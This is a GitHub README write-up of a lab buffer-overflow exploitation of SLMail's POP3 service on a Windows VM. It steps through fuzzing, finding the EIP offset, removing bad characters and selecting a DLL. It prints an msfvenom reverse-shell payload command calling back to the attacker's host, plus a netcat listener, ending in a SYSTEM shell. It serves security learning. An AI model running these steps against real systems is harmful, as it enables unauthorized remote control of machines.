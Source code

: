 # Windows Buffer Overflow

## Objective:
This project is centered on understanding and executing a Windows buffer overflow. By targeting a specific Windows virtual machine, the project aimed to shed light on the intricacies of buffer overflow vulnerabilities in a Windows environment, emphasizing the steps and tools necessary to exploit such flaws. The key objectives of the project are detailed below:
- **Manual Buffer Overflow:** Engaging in a step-by-step process to perform a buffer overflow against a Windows target, understanding the specific conditions and elements that lead to successful exploitation.
- **Immunity Debugger Integration:** Leveraging the Immunity Debugger to trace and understand the buffer overflow process in real-time. This involved attaching specific processes to the debugger and observing program behavior during exploitation attempts.
- **Character Testing and EIP Control:** Using a fuzzer script to determine the exact point of EIP overwrite, followed by a systematic approach to identifying and removing bad characters to ensure the crafted payload's effectiveness.
- **Payload Crafting and Exploitation:** Utilizing MSFvenom to generate a specific payload, followed by setting breakpoints and adjusting scripts to gain control over the program's execution. Successfully exploiting the vulnerability led to obtaining a reverse shell on the target machine.

## Walkthrough:
- Opened BOF machine, accessed command prompt as admin, ran **“slmgr /rearm”** and **“ipconfig”**. Identified IP as **“10.0.2.10”**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF1.png" alt="">
</p>

- Installed **“12f1ab027e5374587e7e998c00682c5d-SLMail55_4433.exe”**, rebooted VM, and created a shortcut for **“SLmail.cpl”**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF2.png" alt="">
</p>

- Launched **“SLmail.cpl”** & **“Immunity debugger”** as admin.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF3.png" alt="">
</p>

- In “Immunity debugger”, attached the **“SLmail.exe”** file and ensure its active state.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF4-1.png" alt="">
</p>
<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF4-2.png" alt="">
</p>

- On my Kali machine, downloaded the **“fuzzerScript.py”** to the BOF folder on the desktop.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF5.png" alt="">
</p>

- In the same directory, created and edited **“fuzzy.py”**, updating the target IP address on line 13.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF6.png" alt="">
</p>

- Performed an nmap scan on the target VM. Identified Port 100 open with “pop3” protocol.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF7.png" alt="">
</p>

- Updated the **“fuzzy.py”** with the target IP and port.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF8.png" alt="">
</p>

- In the BOF directory, executed the script using “python2 fuzzy.py”.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF9.png" alt="">
</p>

- In Immunity debugger, noticed EIP showing **“41414141”**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF10.png" alt="">
</p>

- Generated an MSF pattern using **“msf-pattern_create -l 3000”**, producing a unique 3000-byte pattern to identify program control flow.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF11.png" alt="">
</p>

- Copied this pattern into the **“fuzzy.py”** script buffer, removing the unnecessary counter and loop.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF12.png" alt="">
</p>

- Reset both SLmail.cpl and Immunity debugger. Ensured SLmail was active in Immunity, then ran **“python2 fuzzy.py”** from Kali.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF13.png" alt="">
</p>

- Observed EIP in Immunity debugger updated to **“39694438”**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF14.png" alt="">
</p>

- Determined memory control location using **“msf-pattern_offset -l 3000 -q 39694438”**, identifying offset **“2606”**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF15.png" alt="">
</p>

- Validated this by modifying **“fuzzy.py”** buffer to **“A * 2606 + B * 4”**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF16.png" alt="">
</p>

- Reset SLmail.cpl and Immunity debugger, then executed **“python2 fuzzy.py”**. Noticed EIP as **“42424242”** and EBP as **“41414141”** in Immunity debugger.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF17-1.png" alt="">
</p>
<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF17-2.png" alt="">
</p>

- Updated **“fuzzy.py”** to include bad characters, and modified the buffer accordingly.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF18.png" alt="">
</p>

- Restarted slmail.clp and Immunity debugger. Ran **“python fuzzy.py”** from Kali, noting an output of 2865 bytes.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF19.png" alt="">
</p>

- Followed ESP in Immunity debugger's dump, identifying sequences to be removed from **“fuzzy.py”**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF20-1.png" alt="">
</p>
<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF20-2.png" alt="">
</p>

- Repeated the process with updated **“fuzzy.py”**, observing a byte decrease in output.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF21.png" alt="">
</p>

- Made another update to **“fuzzy.py”**, removing the identified bad character.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF22-1.png" alt="">
</p>
<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF22-2.png" alt="">
</p>

- Reset tools, searched for mona modules in Immunity debugger, then searched for the appropriate DLL.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF23.png" alt="">
</p>

- Crafted shellcode with **“msfvenom -p windows/shell_reverse_tcp LPORT=4444 LHOST=10.0.2.6 -f c -b "\x00\x0a\x0d"”**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF24.png" alt="">
</p>

- Updated “fuzzy.py” with the crafted shell code.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF25.png" alt="">
</p>

- Set up a listener on Kali with **“nc -lvp 4444”**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF26.png" alt="">
</p>

- Restarted SLmail, ran **“fuzzy.py”**. The netcat listener received the code, granting system access. Confirmed with **“whoami”** command showing **“nt authority\system”**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF27.png" alt="">
</p>
